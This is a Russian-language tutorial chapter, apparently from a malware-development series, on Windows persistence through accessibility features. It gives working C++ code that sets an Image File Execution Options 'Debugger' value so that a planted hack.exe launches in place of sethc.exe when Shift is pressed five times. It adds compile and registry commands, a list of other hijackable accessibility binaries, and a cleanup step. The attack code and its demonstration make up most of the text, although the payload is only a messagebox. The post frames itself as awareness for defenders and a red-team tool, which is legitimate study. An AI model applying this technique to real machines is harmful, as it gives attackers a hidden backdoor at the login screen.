 \newpage
\subsection{78. Разработка вредоносного ПО: закрепление (persistence) - часть 12. Функции доступности. Простой пример на C++.}

الرَّحِيمِ الرَّحْمَٰنِ للَّهِ بِسْمِ 

![pers](./images/72/2022-09-30_17-48.png){width="80%"}    

Этот пост является результатом моего собственного исследования ещё одного метода закрепления вредоносного ПО на уровне администратора: через функции доступности Windows.    

В одном из [предыдущих](https://cocomelonc.github.io/malware/2022/09/10/malware-pers-10.html) постов я писал о закреплении через Image File Execution Options. В одном из примеров PoC мы просто создавали отладчик для процесса-жертвы в этом ключе реестра:

`HKLM\Software\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\mspaint.exe`

После этого единственное, что требовалось, - разместить вредоносное приложение в `System32`.    

### практический пример. sethc.exe

Сегодня я просто заменю наш целевой процесс на `sethc.exe`. Но что такое `sethc.exe`? Этот исполняемый файл отвечает за залипающие клавиши. Нажатие клавиши `Shift` `5` раз включает залипающие клавиши:    

![pers](./images/72/2022-09-30_17-26.png){width="80%"}    

Вместо легитимного `sethc.exe` будет запущен поддельный `sethc.exe`, который, как обычно, для простоты просто вызывает messagebox "meow". Исходный код довольно похож (`pers.cpp`):     

```cpp
/*
pers.cpp
windows persistence via Accessibility Features
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/09/30/malware-pers-12.html
*/
#include <windows.h>
#include <string.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  // image file
  const char* img = "SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Image 
  File Execution Options\\sethc.exe";

  // evil app
  const char* exe = "C:\\Windows\\System32\\hack.exe";

  // Debugger
  LONG res = RegCreateKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)img, 0, NULL, 
  REG_OPTION_NON_VOLATILE, KEY_WRITE | KEY_QUERY_VALUE, NULL, &hkey, NULL);
  if (res == ERROR_SUCCESS) {
    // create new registry key
    // reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File 
    // Execution Options\sethc.exe" /v Debugger /d "hack.exe"
    RegSetValueEx(hkey, (LPCSTR)"Debugger", 0, REG_SZ, (unsigned char*)exe, 
    strlen(exe));
    RegCloseKey(hkey);
  }

  return 0;
}
```

окно сообщения Meow-meow:    

```cpp
/*
hack.cpp
evil app for windows persistence
via Accessibility Features
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/09/30/malware-pers-12.html
*/
#include <windows.h>
#pragma comment (lib, "user32.lib")

int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, 
LPSTR lpCmdLine, int nCmdShow) {
  MessageBox(NULL, "Meow-meow!", "=^..^=", MB_OK);
  return 0;
}
```

### демонстрация

Давайте посмотрим, как это работает на практике. Сначала проверим ключи реестра:        

```powershell
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\
Image File Execution Options" /s
```

![pers](./images/72/2022-09-30_17-32.png){width="80%"}    

Затем, компилируем наш `pers.cpp`:     

```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants \
-static-libstdc++ -static-libgcc -fpermissive
```

![pers](./images/72/2022-09-30_17-40.png){width="80%"}    

Запустим и снова проверим реестр:    

> **Для замены системного бинарного файла Windows требуются права администратора**    

```powershell
.\pers.exe
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File 
Execution Options\sethc.exe" /s
```

![pers](./images/72/2022-09-30_17-44.png){width="80%"}    

Наконец, нажмем `Shift` `5` раз:     

![pers](./images/72/2022-09-30_17-46.png){width="80%"}    

Посмотрим на свойства `hack.exe`:     

![pers](./images/72/2022-09-30_17-47.png){width="80%"}    

![pers](./images/72/2022-09-30_17-47_1.png){width="80%"}    

Отлично! =^..^=    

После завершения эксперимента, для очистки, выполните:     

```powershell
Remove-Item -Path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image 
File Execution Options\sethc.exe" -Force -Verbose
```

![pers](./images/72/2022-10-01_03-39.png){width="80%"}    

### заключение

Функции доступности Windows включают набор утилит, доступных с экрана входа в систему (например, залипающие клавиши). Некоторые из этих функций и их соответствующие триггеры:

**1. Диспетчер специальных возможностей**     
- `C:\Windows\System32\Utilman.exe`     
- Триггер: `Windows + U`      

**2. Экранная клавиатура**     
- `C:\Windows\System32\osk.exe`      
- Триггер: клик по экранной клавиатуре     

**3. Экранная лупа**   
- `C:\Windows\System32\Magnify.exe`     
- Триггер: `Windows + =`        

**4. Экранный диктор**       
- `C:\Windows\System32\Narrator.exe`    
- Триггер: `Windows + Enter`    

**5. Переключение экрана**     
- `C:\Windows\System32\DisplaySwitch.exe`    
- Триггер: `Windows + P`    

Эти функции Windows стали широко известны после того, как группы APT использовали их для получения бэкдора на целевых компьютерах. Например, [APT3](https://attack.mitre.org/groups/G0022/), [APT29](https://attack.mitre.org/groups/G0016/) и [APT41](https://attack.mitre.org/groups/G0096/) использовали залипающие клавиши.     

Надеюсь, этот пост повысит осведомленность синих команд об этой интересной технике и добавит инструмент в арсенал красных команд.    

[MITRE ATT&CK. Event Triggered Execution: Accessibility Features](https://attack.mitre.org/techniques/T1546/008/)    
[APT3](https://attack.mitre.org/groups/G0022/)      
[APT29](https://attack.mitre.org/groups/G0016/)     
[APT41](https://attack.mitre.org/groups/G0096/)     
[исходный код на github](https://github.com/cocomelonc/meow/tree/master/2022-09-30-malware-pers-12)      
